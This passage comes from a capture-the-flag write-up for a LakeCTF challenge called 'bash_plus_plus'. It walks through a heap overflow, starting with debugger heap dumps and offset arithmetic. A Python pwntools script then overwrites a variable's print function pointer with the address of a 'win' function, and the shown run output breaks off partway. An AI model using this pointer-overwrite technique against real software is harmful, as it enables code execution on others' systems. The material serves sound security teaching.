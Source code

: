 ```
    [0x000056524f365360     03 00 00 00 6c 6f 67 24 76 61 72 58 58 58 58 58    ....log$varXXXXX]
Chunk(addr=0x56524f365380, size=0x5858585858585858, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f365380     58 58 58 58 58 58 58 58 00 00 00 00 00 00 00 00    XXXXXXXX........]
```
The address is `0x000056524f365360`. Then, I count 0x20 bytes for each log created, and 0x90 for each `stringVariable` created. We created 4 logs and 2 `stringVariable`, so there is an offset of 0x1A0 bytes. To get the offset for the `win` pointer, we need to add 0x20 for the log, and 0x10 for the first bytes of the `variable`:
```
gef➤  x/gx 0x000056524f365360+0x1A0+0x30
0x56524f365530:	0x0000565234316dad
gef➤  x/i 0x0000565234316dad
   0x565234316dad <_Z3winv>:	endbr64
```
This is important to know this offset because we need now to create a pointer to this address. Because we have a pointer to the heap (from the first part of this exploit), we can compute the address of the `win` pointer using it:
```py
win_addr_ptr = str_addr - 0x40 + 0x1D0
```
Then, we will have to create a new variable, overwrite the `print` pointer with the `win_addr_ptr` we calculate above, and "print" it:
```py
# We will need to overwrite the next variable
# so we create a new log
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'log\n')

# We don't care about the value of this variable
# We just want to overwrite the print pointer
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$pwn=str\n')

# The pointer is 21 characters after the last log character
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'X'*21 + bytes(reversed(bytes.fromhex(hex(win_addr_ptr)[2:]))) + b'\n')

# Print the variable
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$pwn\n')

# Switch to interactive mode to see the output before the crash
conn.interactive()
```
Now, create a `flag.txt` file next to the application and run the script:
```
$ python3 pwn_bashpp.py 
[+] Starting local process '/home/pierre/Documents/ctf/lakectf/bash_plus_plus/main': pid 6510
[*] '/home/pierre/Documents/ctf/lakectf/bash_plus_plus/main'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'> '
b'0\n> '
b'Creating new log\n> '
b'str\n> '
b'XXXXXXXXXXXXXXXXXXXXXXXXXXXXX\n> '
b'Creating new log\n> '
```